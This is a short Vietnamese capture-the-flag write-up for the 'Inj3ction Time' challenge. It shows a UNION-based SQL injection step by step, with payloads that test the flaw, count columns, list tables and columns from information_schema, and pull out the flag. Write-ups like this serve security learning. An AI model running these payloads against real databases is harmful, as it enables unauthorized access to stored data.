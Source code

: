<h1>Inj3ction Time</h1>

Test lỗi SQLI
```sql
1 or 1=1
```

![](./img/1.png)

Sử dụng Union tìm số cột
```sql
1 order by 4-- -
```
![](./img/2.png)

Có 4 cột

---
Tìm tên bảng:
```sql
1 union select null, table_name, null, null from information_schema.tables-- -
```

```
Table_name: w0w_y0u_f0und_m3
```

Tìm tên cột:
```sql
1 union select null, column_name, null, null from information_schema.columns-- -
```
```
Column_name: f0und_m3
```

Tìm Flag:
```sql
1 union select null, f0und_m3, null, null from w0w_y0u_f0und_m3-- -
```

```
FLAG: abctf{uni0n_1s_4_gr34t_c0mm4nd}
```